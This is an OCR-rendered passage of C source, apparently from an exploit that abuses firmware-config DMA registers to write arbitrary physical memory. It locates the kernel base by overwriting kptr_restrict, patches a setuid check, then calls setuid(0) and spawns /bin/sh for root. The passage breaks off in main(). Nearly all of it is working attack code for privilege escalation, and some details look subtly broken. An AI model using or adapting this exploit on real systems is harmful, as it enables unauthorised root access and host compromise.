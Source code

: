```c
    //
    cmd_physaddr = sp0_get_cmd(fw_ctl_skip | fw_ctl_select | (FW_CFG_SIGNATURE << 16), 0, byte_off);
    
    cmd_physaddr_lo = (uint32_t)(cmd_physaddr & 0xFFFFFFFFU);
    cmd_physaddr_hi = (uint32_t)(cmd_physaddr >> 32);

    if (cmd_physaddr_hi)
        outl(htonl(cmd_physaddr_hi), BIOS_CFG_DMA_ADDR_HIGH);
    outl(htonl(cmd_physaddr_lo), BIOS_CFG_DMA_ADDR_LOW);
    

    //
    // 1 byte DMA transfer
    //
    cmd_physaddr = sp0_get_cmd(fw_ctl_read | (FW_CFG_SIGNATURE << 16), phys_addr, size);
    
    cmd_physaddr_lo = (uint32_t)(cmd_physaddr & 0xFFFFFFFFU);
    cmd_physaddr_hi = (uint32_t)(cmd_physaddr >> 32);

    if (cmd_physaddr_hi)
        outl(htonl(cmd_physaddr_hi), BIOS_CFG_DMA_ADDR_HIGH);
    outl(htonl(cmd_physaddr_lo), BIOS_CFG_DMA_ADDR_LOW);


    return 0;
}

uint32_t check_kptr_restrict(){
    uint32_t r;
    FILE* f;
    f = fopen(KPTR_RESTRICT, "rb");
    fscanf(f, "%d", &r);
    fclose(f);
    return r;
}

void fw_cfg() {
    uint64_t phys_kbase;
    for (phys_kbase = CONFIG_PHYSICAL_START + CONFIG_PHYSICAL_ALIGN * 0x1000; phys_kbase >= CONFIG_PHYSICAL_START; phys_kbase -= CONFIG_PHYSICAL_ALIGN){
        arbw(phys_kbase + KPTR_RESTRICT_OFFSET, SIGNATURE, sizeof(SIGNATURE));
        if(check_kptr_restrict() != 0)
            break;
    }
    printf("phys kbase @ %p\n", phys_kbase);

    arbw(phys_kbase + SETUID_CHECK+0, "E", 1);
    arbw(phys_kbase + SETUID_CHECK+1, "M", 1);
    arbw(phys_kbase + SETUID_CHECK+2, "E", 1);
    arbw(phys_kbase + SETUID_CHECK+3, "M", 1);
    arbw(phys_kbase + SETUID_CHECK+4, "E", 1);
    
    setuid(0);
    system("/bin/sh");
}

int main() {   
    // ioperm(0, 0xffff, 1);

    struct sigaction sa_fpe = {0};
    sa_fpe.sa_sigaction = sigfpe_handler;
    sa_fpe.sa_flags = SA_SIGINFO;
```